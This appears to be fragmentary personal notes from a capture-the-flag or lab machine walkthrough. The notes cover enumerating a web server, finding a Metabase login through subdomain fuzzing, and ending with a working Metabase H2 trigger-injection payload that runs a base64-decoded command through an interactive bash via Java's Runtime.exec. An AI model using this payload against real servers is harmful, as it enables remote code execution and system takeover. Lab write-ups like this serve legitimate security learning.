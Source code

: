 on invetigating the port 80 found a simple webpage 

>- Also found a fancybox jqery llibrary of javascript which s=help in zooming media like phtotos,videos etc...but found no exploit 

# So tried moving to subdomain fuzzing and found a data domain

![[../../windows box/jab/attachment/Pasted image 20240322131402.png]]

# there found a metabase login page

![[../../windows box/jab/attachment/Pasted image 20240322131435.png]]













![[../../windows box/jab/attachment/Pasted image 20240322140031.png]]

"db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER {random_string} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{command}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x".format(random_string = ''.join(random.choice(ascii_uppercase) for i in range(12)), command=command)